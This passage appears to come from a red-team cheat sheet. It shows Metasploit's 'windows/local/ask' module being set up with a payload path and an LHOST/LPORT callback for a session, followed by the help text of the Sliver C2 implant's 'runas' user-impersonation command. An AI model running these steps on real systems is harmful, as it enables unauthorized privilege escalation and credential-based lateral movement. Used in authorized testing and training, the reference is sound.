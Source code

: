 ```
   --  ----
   0   Windows



View the full module info with the info, or info -d command.

msf exploit(windows/local/ask) > set technique <EXE | PSH>

msf exploit(windows/local/ask) > set path [C:\\path\\to\\file.<exe | ps1>]

msf exploit(windows/local/ask) > set lhost <IP>

msf exploit(windows/local/ask) > set lport <PORT>

msf exploit(windows/local/ask) > set exitfunc <seh | thread | process | none>

msf exploit(windows/local/ask) > set session <session_id>

msf exploit(windows/local/ask) > run -j
```

### 2.3 - Sliver

#### 2.3.1 - Help Menu

```
sliver (IMPLANT_NAME) > runas -h

Command: runas [--username] [--process] [--args]
About: (Windows Only) Run a new process in the context of the designated user

Usage:
======
  runas [flags]

Flags:
======
  -a, --args        string    arguments for the process
  -d, --domain      string    domain of the user
  -h, --help                  display help
  -n, --net-only              use
  -P, --password    string    password of the user
  -p, --process     string    process to start
  -s, --show-window           Log on, but use the specified credentials on the network only. The new process uses the same token as the caller, but the system creates a new logon session within LSA, and the process uses the specified credentials as the default credentials.
  -t, --timeout     int       command timeout in seconds (default: 30)
  -u, --username    string    user to impersonate
```

#### 2.3.2 - Usage

